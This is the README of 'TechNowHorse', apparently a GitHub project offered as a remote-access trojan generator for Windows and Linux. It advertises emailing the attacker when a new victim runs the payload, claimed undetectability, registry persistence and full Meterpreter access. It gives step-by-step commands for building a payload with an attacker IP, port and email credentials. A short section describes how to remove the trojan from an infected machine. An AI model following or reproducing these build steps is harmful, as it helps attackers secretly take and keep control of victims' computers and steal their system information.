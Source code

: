 <h1 align="center">TechNowHorse</h1>
<p align="center">
    <a href="https://python.org">
    <img src="https://img.shields.io/badge/Python-3.7-green.svg">
  </a>
  <a href="https://github.com/Technowlogy-Pushpender/technowhorse/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/Technowlogy-Pushpender/technowhorse/releases">
    <img src="https://img.shields.io/badge/Release-1.0-blue.svg">
  </a>
    <a href="https://github.com/Technowlogy-Pushpender/technowhorse">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>



<p align="center">
  TechNowHorse is a RAT (Remote Administrator Trojan) Generator for Windows/Linux systems written in Python 3.
</p>
              
                        This small python script can do really awesome work.

## Disclaimer
<p align="center">
  :computer: This project was created only for good purposes and personal use.
</p>

THIS SOFTWARE IS PROVIDED "AS IS" WITHOUT WARRANTY OF ANY KIND. YOU MAY USE THIS SOFTWARE AT YOUR OWN RISK. THE USE IS COMPLETE RESPONSIBILITY OF THE END-USER. THE DEVELOPERS ASSUME NO LIABILITY AND ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY THIS PROGRAM.

## Features
- [x] Works on Windows/Linux
- [x] Notify New Victim Via Email
- [x] Undetectable
- [x] Persistence
- [x] Give Full Meterpreter Access to Attacker
- [x] Didn't ever require metesploit installed to create trojan
- [x] Creates Executable Binary With Zero Dependencies

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 8.1 - Pro**


## Following is the limitations of meterpreter payload generated using metasploit:-
  * Have to run the Metasploit Listener before executing backdoor
  * Backdoor itself don't become persistence, we have to use the post exploitation modules in order to make backdoor persistence. 
    And post exploitation modules can only be used after successful exploitation.
  * Didn't Notify us whenever payload get executed on new system.
  
We all know how powerful the Meterpeter payload is but still the payload made from it is not satisfactory.

## Following are the features of this payload generator which will give you a good idea of this python script:-
  * Uses Windows registry to become persistence in windows.
  * Also manages to become persistence in linux system.
  * Payload can run on LINUX as well as WINDOWS.
  * Provide Full Access, as metasploit listener could be used as well as supports custom listener (You can Create Your Own Listener)
  * Sends Email Notification, when ever payload runs on new system, with complete system info.
  * Generates payload within 1 minute of ever less.
  * Supports all meterpreter post exploitation modules.
  * payload Can be Created on Windows as well as Linux system.


## Prerequisite
- [x] Python 3.X
- [x] Few External Modules

## How To Use in Linux
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

$ chmod +x paygen.py
$ ./paygen.py  --help    or   python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open paygen.py in Text editor and Configure Line 7 "PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" "

# Getting Help Menu
$ python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -w -o output_file_name
```

## Note:- Evil File will be saved inside dist/ folder, inside technowhorse/ folder

## Screenshots:

#### Getting Help
![](/img/1.help.png)

#### Running paygen.py Script
![](/img/2.running_script.png)

#### Getting Notification From Victim PC
![](/img/3.getting_notification.png)

## Contributors:
Currently this repo is maintained by me (Pushpender Singh). Owner of https://www.technowlogy.tk Website.

All contributor's pull request will be accepted if their pull request is worthy for this repo.

## TODO
- [ ] Add new features
- [ ] Contribute GUI 

## Removing TrojanHorse:
* Go to start, type regedit and run the first program, this will open the registry editor.
* Navigate to the following path Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  There should be an entry called winexplorer, right click this entry and select Delete.
* Go to your user path > AppData > Roaming, you’ll see a file named “explorer.exe”, this is the RAT, right click > Delete.
* Restart the System.

## Contact 
singhpushpender250@gmail.com or [Contact Us](https://technowlogy.tk/contact-us)

## More Features Coming Soon...
